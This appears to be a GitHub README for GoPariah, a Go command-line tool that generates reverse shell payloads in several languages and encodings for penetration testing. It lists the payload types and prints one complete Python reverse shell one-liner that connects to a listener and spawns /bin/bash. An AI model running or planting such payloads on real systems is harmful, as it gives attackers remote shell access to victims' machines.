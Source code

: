 <div align=center>
  <img src="https://miro.medium.com/v2/resize:fit:1358/0*rs9e2N81fxl4n-Dx.png" width=250px>
</div>

# GOPARIAH

GoPariah is a tool to generate <i>reverse shell payloads</i> on the fly. Instead of having to navigate to [revshells.com](https://revshells.com/) or the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) repository, you can easily generate different payloads from the CLI. It was inspired by [LazyPariah](https://github.com/octetsplicer/LAZYPARIAH) (a similar tool written in Ruby).

### Installing or Downloading Precompiled Binaries
You can build it from source by running the following commands:

```
$ git clone https://github.com/julio-cfa/gopariah.git
$ go build -o gopariah main.go
```
Or, alternatively, you can grab a precompiled binary from [releases](https://github.com/julio-cfa/gopariah/releases).
<br>PS: Don't forget to add it to your PATH.
### Usage
```
$ ./gopariah --help
Usage: ./gopariah <revshell-type> <lhost> <lport> 

> Available revshells: 
  bash
  bash_urlencode
  python
  python3
  python_b64
  python3_b64
  python_urlencode
  python3_urlencode
  mkfifo
  mkfifo_urlencode
  perl
  perl_b64
  perl_urlencode
  php
  php_b64
  php_urlencode
  powershell
  powershell_b64
  powershell_urlencode
```
### Example
```
$ ./gopariah python3 127.0.0.1 9001
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
